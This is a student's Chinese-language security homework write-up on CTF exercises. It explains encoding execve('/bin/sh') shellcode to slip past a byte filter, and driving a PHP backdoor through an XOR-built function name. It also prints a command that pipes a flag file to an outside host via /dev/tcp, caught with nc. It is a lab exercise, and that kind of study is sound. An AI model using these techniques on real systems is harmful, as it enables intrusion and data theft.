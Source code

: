 # Computer Security Homework 0x00
Real name: 涂世昱
Nickname: R07922115
Student ID: R07922115

## shellc0de
這題目的是輸入一段 shellcode 被當成函數來執行, 所輸入的 shellcode 進行 syscall 去執行 /bin/sh 的操作, 而後找到 flag 位置並且輸出。 這段 shellcode 是由一段 assembly 經過 pwntools 所轉成的一串 bytecode, 而這段 assembly 所作的事情就是 execve("/bin/sh"), 將此 assembly 用 pwntools 的 asm() 函數包起來就會變成一個字串, 又因為 syscall 這個 assembly 所轉成的字串會被轉換成 '\x0f\x05', "mov rax, 59" (指定 syscall 為 execve) 會變成 'H\xc7\xc0;\x00\x00\x00', 而在 shell.c 當中就會把 0x00, 0x05, 0x0f 判斷, 若是 shellcode 當中出現這幾個 byte 就會終止執行。 於是我將轉出來的 bytecode 用 pwnlib.encoders.encoder.encode 將 shellcode 再轉換成不包含那些 byte 的 shellcode, 但維持原先的 assembly 操作, 最終就可以解出這題。

## open my backdoor
進入連結打開門之後會出現 php 程式碼, 仔細觀察後得出結果是它會由 url 輸入的變數, $_GET[87], 來決定所要執行的函數名稱, 且此函數名稱是由四個英文字母所組成的, 就可以聯想出像是 echo, exec, eval, ..., 這些可能, 然後將這些東西和 'd00r' 對照 ascii table 16進位的結果在 xor 就可得出該輸入的 url 內容, 例如

```info
'd00r' ^ 'exec' = ['0x1', '0x48', '0x55', '0x11'] -> url: ?87=%01HU%11
```

, 接著再透過 $_POST{'#'} (e.g. ${"_\x50\x4f\x53\x54"}{$c}) 來傳入此函數的參數。 因為最終目標是將 server 的 flag 印出來, 所以勢必先將所在位置的檔案都印出來。首先先考慮 echo($(system(ls))), 但根據 php manual
  > 
  Note: Because this is a language construct and not a function, it cannot be called using variable functions. 
  故此法行不通

接著只好試試 exec(ls), 但問題是該如何把 server 那邊 ls 的結果傳回本地呢? 可以先用 nc 在本地開一個 listening port, 再將 server ls 的結果 redirect 到 /dev/tcp/<ip>/<port> 即可。 就發現 flag 被放在 ~/flag__is_here 故最終的解法為:
  
  >
  本地 terminal 執行: nc -l 8888 
  url: http://edu-ctf.csie.org:10151/d00r.php?87=%01HU%11
  post: #=cat ~/flag_is_here > /dev/tcp/<lab pc ip>/8888


## m4chine

## encrypt

## Winmagic

